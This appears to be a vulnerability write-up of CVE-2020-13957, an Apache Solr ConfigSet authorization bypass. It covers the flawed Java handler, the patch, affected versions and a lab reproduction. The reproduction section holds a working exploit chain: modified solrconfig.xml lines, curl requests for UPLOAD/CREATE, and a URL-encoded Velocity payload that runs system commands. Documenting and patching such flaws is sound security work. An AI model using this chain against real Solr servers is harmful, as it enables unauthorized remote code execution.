









# CVE-2020-13957 CWE-863 Solr RCE

## Vulnerability Background
- **Solr :** A high-performance, scalable open-source enterprise-grade search engine platform built on Apache Lucene. It uses inverted index technology, enabling fast and efficient full-text retrievals of massive data, supporting import and indexing of various data formats (such as JSON, XML, etc.). Solr offers powerful query functions, including full-text search, filtered queries, sorting, grouping, and more, flexibly meeting different search needs. It also features distributed search and index replication functions, enabling high availability and load balancing, widely used in e-commerce search, content management, data analysis, and many other fields, helping enterprises enhance search experience and data processing capabilities.
- **SolrCloud Pattern:** A distributed deployment architecture of Apache Solr designed to achieve high availability and horizontal scalability. In SolrCloud mode, a Solr cluster consists of multiple Solr instances, which are coordinated and managed through ZooKeeper. SolrCloud uses sharding and replica mechanisms to distribute and redundant data, thereby improving data reliability and query performance. With SolrCloud, Solr clusters can be easily scaled to handle large-scale data and high-concurrency queries, while ensuring data consistency and system fault tolerance.
- **Configset:** A collection of configuration files in Apache Solr used to configure index and search behavior, containing key files such as `solrconfig.xml` and `schema.xml`, which define Solr's behavior and data structures. `solrconfig.xml` Various components and plugins used to configure Solr, such as request processors, caching mechanisms, etc.; `schema.xml` defines document fields, data types, analyzers, and more. Configset allows users to customize Solr's functionality according to specific needs. Users can upload custom configsets to use these custom configurations when creating collections.
- **Collection:** A logical container used to store a collection of documents with the same structure. These documents are indexed and stored for efficient search and retrieval. A collection can be divided into multiple shards, each with an independent index that can be distributed across multiple Solr instances within the cluster. This distributed architecture design enables Solr to support large-scale data storage and high-concurrency query requests. With proper configuration, collections can replicate data and store redundant data, improving system availability and fault tolerance.
- **Velocity Template:** A Java-based template engine used to generate dynamic content such as web pages, emails, and more. It uses simple syntax to combine static templates with data models to generate personalized outputs. Velocity Template Language (VTL) provides control structures such as variables, conditional judgments, and loops, allowing developers to flexibly build dynamic content. In Solr, the Velocity template is used to create dynamic search results pages and management interfaces.
- **CWE-863 (Incorrect Authorization):** The software fails to properly verify user permissions during authorization checks, allowing attackers to bypass access restrictions and perform unauthorized operations. Such vulnerabilities can lead to issues such as information leaks, data tampering, or privilege escalation, depending on the affected features and the sensitivity of the data. The exploitation of CWE-863 usually does not require user interaction and is highly likely to be exploited.

## Vulnerability Mechanism
Solr can run in both SolrCloud (distributed cluster mode) and StandaloneServer (standalone server mode). When running in SolrCloud mode, configsets can be operated via the Configset API, including creating and deleting them.

When performing UPLOAD via the Configset API, if authentication is enabled (not enabled by default) and the request has passed authentication, Solr will set the configset to "trusted"; otherwise, the configuration set will not be trusted, and untrusted configsets cannot create collections.

However, when an attacker uploads a configset via UPLOAD and then CREATES configset based on it, Solr does not perform trust checks on this new configset, causing the collection to be created using the untrusted new configset, which can then be executed via Solr's Velocity template rendering feature.

**Summary:** Apache Solr versions 6.6.0 to 6.6.6, 7.0.0 to 7.7.3, and 8.0.0 to 8.6.2 prevent some features considered dangerous (for remote code execution) in ConfigSets uploaded via API without authentication/authorization. You can bypass checks that block such features by using a combination of UPLOAD/CREATE.

## Vulnerability Location
Exist solr\core\src\java\org\apache\solr\handler\admin\ConfigSetsHandler.java File, line **264**, defines an enum type named `ConfigSetOperation` for handling operations related to the ConfigSet.

**265** is used to handle the creation of configuration sets, but **269** does not **check** whether baseConfigSet is a trusted configSet before directly adding the previously obtained base configuration set name to the property map props. Nor does **check** whether the current request is initiated by a trusted user. In other words, **anyone who knows the name of an existing trusted configSet can "derive" a new configSet based on it, retaining the original dangerous configuration (such as script, velocity template), and ultimately using it to execute arbitrary commands**. This is where the **vulnerability** lies.

```java
enum ConfigSetOperation {
    CREATE_OP(CREATE) {
      @Override
      Map<String, Object> call(SolrQueryRequest req, SolrQueryResponse rsp, ConfigSetsHandler h) throws Exception {
          // Parameter acquisition
        String baseConfigSetName = req.getParams().get(BASE_CONFIGSET, DEFAULT_CONFIGSET_NAME);
          // Copy the required parameters from the request and store them in the props map
        Map<String, Object> props = CollectionsHandler.copy(req.getParams().required(), null, NAME);
// 269 lines ********** Directly add the previously obtained basic configuration set name to the property map props***************
        props.put(BASE_CONFIGSET, baseConfigSetName);
          // Copy properties with specific prefixes
        return copyPropertiesWithPrefix(req.getParams(), props, PROPERTY_PREFIX + ".");
      }
    },
    DELETE_OP(DELETE) {
      @Override
      Map<String, Object> call(SolrQueryRequest req, SolrQueryResponse rsp, ConfigSetsHandler h) throws Exception {
        return CollectionsHandler.copy(req.getParams().required(), null, NAME);
      }
    },
    LIST_OP(LIST) {
      @Override
      Map<String, Object> call(SolrQueryRequest req, SolrQueryResponse rsp, ConfigSetsHandler h) throws Exception {
        NamedList<Object> results = new NamedList<>();
        SolrZkClient zk = h.coreContainer.getZkController().getZkStateReader().getZkClient();
        ZkConfigManager zkConfigManager = new ZkConfigManager(zk);
        List<String> configSetsList = zkConfigManager.listConfigs();
        results.add("configSets", configSetsList);
        SolrResponse response = new OverseerSolrResponse(results);
        rsp.getValues().addAll(response.getResponse());
        return null;
      }
    };
    // ... ...
  }
```

## Remediation

Upgrade to Solr 8.6.3 or later. Vendor-supported mitigations are to disable ConfigSet uploads with `-Dconfigset.upload.enabled=false`, or enable authentication and authorization and reject unknown requests. Solr administrative APIs must not be exposed to untrusted networks.

The patch adds trust checks when creating ConfigSets: `isTrusted()` determines whether the request is authenticated, and `isCurrentlyTrusted()` checks the base ConfigSet. An unauthenticated request can no longer create a new ConfigSet from a trusted one.

```java
    CREATE_OP(CREATE) {
      @Override
      public Map<String, Object> call(SolrQueryRequest req, SolrQueryResponse rsp, ConfigSetsHandler h) throws Exception {
        String baseConfigSetName = req.getParams().get(BASE_CONFIGSET, DEFAULT_CONFIGSET_NAME);
        String newConfigSetName = req.getParams().get(NAME);
        if (newConfigSetName == null || newConfigSetName.length() == 0) {
          throw new SolrException(ErrorCode.BAD_REQUEST, "ConfigSet name not specified");
        }

        ZkConfigManager zkConfigManager = new ZkConfigManager(h.coreContainer.getZkController().getZkStateReader().getZkClient());
        if (zkConfigManager.configExists(newConfigSetName)) {
          throw new SolrException(ErrorCode.BAD_REQUEST, "ConfigSet already exists: " + newConfigSetName);
        }

// Explicitly check whether baseConfigSet exists
        if (!zkConfigManager.configExists(baseConfigSetName)) {
          throw new SolrException(ErrorCode.BAD_REQUEST,
                  "Base ConfigSet does not exist: " + baseConfigSetName);
        }

        Map<String, Object> props = CollectionsHandler.copy(req.getParams().required(), null, NAME);
        props.put(BASE_CONFIGSET, baseConfigSetName);
// Adds authentication logic, isTrusted(): Checks whether the current request is trusted (user authenticated). isCurrentlyTrusted(): Checks whether the target baseConfigSet is a trusted configuration.
        if (!DISABLE_CREATE_AUTH_CHECKS &&
                !isTrusted(req, h.coreContainer.getAuthenticationPlugin()) &&
                isCurrentlyTrusted(h.coreContainer.getZkController().getZkClient(), ZkConfigManager.CONFIGS_ZKNODE + "/" +  baseConfigSetName)) {
          throw new SolrException(ErrorCode.UNAUTHORIZED, "Can't create a configset with an unauthenticated request from a trusted " + BASE_CONFIGSET);
        }
        return copyPropertiesWithPrefix(req.getParams(), props, PROPERTY_PREFIX + ".");
      }
    }
```

## Affected Versions
**Impact Version:** Apache Solr

- 6.6.0 - 6.6.6
- 7.0.0 - 7.7.3
- 8.0.0 - 8.6.2

**Environment Requirements:** SolrCloud mode must be enabled

## Environment Setup
1. Start the Docker environment, Solr version 8.3.0, and listen port 8983



2. There is a core named demo in the container, and XML, JSON, and CSV files are imported into this Solr core. Use the following command to view all cores:

```bash
   curl "http://127.0.0.1:8983/solr/admin/collections?action=LIST&wt=json"
   ```



## Vulnerability Reproduction
Use UPLOAD to upload malicious configuration -> Create a new malicious configuration for the master with the malicious configuration -> Create collection with the new configuration - > Execute RCE.

1. Modify the solr\example\files\conf\solrconfig.xml file. After line 1316, add the following two lines of code, then package all files in the conf directory into a compressed file myconfig.zip.

- Enable Solr's resource loader, used to load Velocity template files from Solr's classpath (/conf/ directory or JAR package), indicating you can directly reference existing template resources in Solr.

```xml
     <str name="solr.resource.loader.enabled">${velocity.solr.resource.loader.enabled:true}</str>


```

- Enables the ability to pass template content via HTTP request parameters, meaning custom template code can be passed via parameters in the request URL.

```xml
     <str name="params.resource.loader.enabled">${velocity.params.resource.loader.enabled:true}</str>
     ```



2. Due to unauthorized uploads in the ConfigSet API, malicious configurations are uploaded. Upload the freshly packaged myconfig.zip named myconfignew.

```bash
   curl -X POST --header "Content-Type:application/octet-stream" \
        --data-binary @myconfig.zip \
        "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=myconfignew"
   ```



Visit the website http://127.0.0.1:8983/solr/admin/configs?action=LIST to see that the uploaded configuration already exists



3. Use the uploaded configset:myconfignew as the master to create a new configset:evilconfigset. Solr does not perform trust checks on this new configset, causing collections to be created using new configsets that are not trusted. Identity verification bypassing is achieved.

```bash
   curl -v "http://127.0.0.1:8983/solr/admin/configs?action=CREATE&name=evilconfigset&baseConfigSet=myconfignew&configSetProp.immutable=false&wt=xml&omitHeader=true"
   ```



4. Next, further utilization of RCE will be pursued. Create a collection by using the newly created evilconfigset to CREATE a new collection: mytestcollection. If you use the uploaded configset:myconfignew directly, an authentication error will be reported.

```bash
   curl -v "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=eviltestcollection&numShards=1&replicationFactor=1&wt=xml&collection.configName=evilconfigset"
   ```



5. Use the curl command to access a query interface for Solr, and utilize Solr's Velocity template rendering feature to execute malicious code. Use the uploaded mytestcollection for remote command execution, where the id is executed. You can see that the result after executing id is successfully returned.

   ```bash
   curl "http://127.0.0.1:8983/solr/eviltestcollection/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set(%24x%3d%27%27)+%23set(%24rt%3d%24x.class.forName(%27java.lang.Runtime%27))+%23set(%24chr%3d%24x.class.forName(%27java.lang.Character%27))+%23set(%24str%3d% 24x.class.forName(%27java.lang.String%27))+%23set(%24ex%3d%24rt.getRuntime().exec(%27id%27))+%24ex.waitFor()+%23set(%24out%3d%24ex.getInputStream())+%23foreach(%24i+ in+%5b1.. %24out.available()%5d)%24str.valueOf(%24chr.toChars(%24out.read()))%23end"
   ```

#set($x=''): Define an empty string variable $x.

$x.class.forName('java.lang.Runtime'): Retrieves the java.lang.Runtime class through an empty string variable.

$rt.getRuntime().exec('id'): Call Runtime.getRuntime().exec('id') to execute the system command id.

$ex.waitFor(): Waits for the command to finish executing.

$out = $ex.getInputStream(): Retrieves the standard output stream for command execution.

#foreach($i in [1..$out.available()]) ... #end: Loop to read all bytes in the output stream and convert them to character output.



## PoC Analysis
Run the EXP file, enter Solr's IP and port, configuration file path, configuration set name for the file, new configuration set name, and the new set name created using the configuration set. After that, you can enter the interactive command input interface.

```bash
python CVE-2020-13957-EXP.py
```



**Execution Process:** Upload malicious configuration file -> Create a new configuration set using the uploaded malicious configuration file as the master configset -> Create a new collection collection collection -> Execute commands using Solr's Velocity template rendering feature.

## References
[NVD - CVE-2020-13957](https://nvd.nist.gov/vuln/detail/CVE-2020-13957)

[Incorrect Authorization in Apache Solr · CVE-2020-13957 · GitHub Advisory Database](https://github.com/advisories/GHSA-3c7p-vv5r-cmr5)

Principle Analysis and Verification of [Apache Solr Unauthorized Upload (RCE) Vulnerability (CVE-2020-13957) - FreeBuf Cybersecurity Industry Portal](https://www.freebuf.com/articles/network/252193.html)

[SOLR-14663: Copy ConfigSet root data from base ConfigSet when using C… · apache/solr@e001c22](https://github.com/apache/solr/commit/e001c2221812a0ba9e9378855040ce72f93eced4)
